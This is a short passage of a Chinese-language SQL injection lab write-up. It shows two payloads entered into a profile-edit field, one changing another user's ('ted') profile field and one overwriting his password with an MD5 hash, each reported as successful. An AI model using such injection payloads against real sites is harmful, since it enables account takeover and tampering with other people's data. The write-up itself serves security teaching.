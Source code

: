 更改输入

```SQL
', user_aim='hello' where username='ted'; #
```

![image-20220325155249897](SQLInjection/image-20220325155249897.png)

修改成功！

![image-20220325155418278](SQLInjection/image-20220325155418278.png)

按照同样的方法修改 ted 的 password，密码需要 md5 加密处理

```sql
', user_password='f379eaf3c831b04de153469d1bec345e' where username='ted' ; #
```

![image-20220325155728319](SQLInjection/image-20220325155728319.png)
